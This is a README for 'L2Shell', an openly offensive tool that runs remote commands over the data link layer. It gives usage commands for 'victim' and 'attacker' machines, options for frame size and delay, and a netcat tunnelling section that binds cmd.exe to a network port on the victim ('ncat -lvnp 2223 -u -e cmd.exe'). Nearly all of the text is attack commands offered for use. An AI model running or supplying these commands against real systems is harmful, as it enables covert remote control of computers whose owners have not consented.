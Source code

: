 # L2Shell
L2Shell is an opensource tool used for communications via data link layer.
This script should work for both windows and linux systems.

## L2Shell Usage
```
python l2shell.py -h
```

### On victim machine:
```
python l2shell.py -l -a <attacker_id> -s <session_id>
```

### On Attacker machine
```
python l2shell.py -c -a <attacker_id> -s <session_id>
```

### Sending command (from attacker host)
```
> <command>
```

### enable options (from attacker host)
```
> enable options
```

### Changing framesize (victim)
```
python l2shell.py -l -f <frame_size> -a <attacker_id> -s <session_id>
```

### Changing chunked request delay (victim)
```
python l2shell.py -l -d <delay> -a <attacker_id> -s <session_id>
```

### Connect to Victim via Mac address - Victim responds with broadcasts
```
python l2shell.py -c -m <aa:aa:aa:aa:aa:aa> -a <attacker_id> -s <session_id>
```

## L2Tunnel - Tunneling Netcat
### Attacker Machine
```
python l2shell.py -c -a <attacker_id> -s <session_id> -p
```
```
ncat.exe 127.0.0.1 1111 --source-port 2223 -u
```
### Victim Node Machine
```
python l2shell.py -l -a <attacker_id> -s <session_id> -p
```
```
ncat.exe -lvnp 2223 -u -e cmd.exe
```
`note: The proxy option [-p] [--proxy] opens local ports 1111 and 2222`

### Requirements
- pcap
- scapy

`note: commands and readme are temporary for the prototype`
